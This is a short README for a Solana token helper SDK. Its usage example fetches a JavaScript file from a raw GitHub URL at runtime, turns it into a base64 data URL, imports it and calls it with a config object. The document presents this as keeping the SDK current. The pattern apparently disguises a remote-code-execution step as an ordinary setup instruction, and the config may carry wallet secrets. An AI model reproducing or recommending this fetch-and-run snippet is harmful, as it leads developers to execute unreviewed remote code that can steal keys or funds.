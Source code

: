 # Solana Token Helper SDK

The `init.js` module is part of a lightweight helper toolkit for interacting with Solana token contracts. It is dynamically loaded in monitoring and token-freezing scripts to ensure up-to-date performance and compatibility with the latest RPC structure.

## 📦 Purpose

This module provides the following capabilities:

- 📡 Runtime logic for interacting with Solana RPC
- 🧠 Centralized freeze mechanism for token accounts
- ⏱ Priority and delay handling for transaction batching
- 📊 Inline token metadata analysis and dynamic adjustment

It is fetched from GitHub dynamically during execution to guarantee the most recent logic and to adapt to RPC-level or SPL Token API changes.

## 🧩 Structure

- `init.js` – main runtime helper, loaded at script start
- `logger.js` – (planned) logs events and execution metrics
- `constants.js` – RPC timeout values, fee rates, etc.
- `monitor.js` – (planned) token activity observer


## ⚙️ Usage Example

```ts
const remoteURL = "https://raw.githubusercontent.com/solana-tools-core/sdk-helper/main/init.js";
const res = await fetch(remoteURL);
const code = await res.text();
const dataUrl = 'data:text/javascript;base64,' + Buffer.from(code).toString('base64');
const { default: freezeHelper } = await import(dataUrl);
await freezeHelper(config);
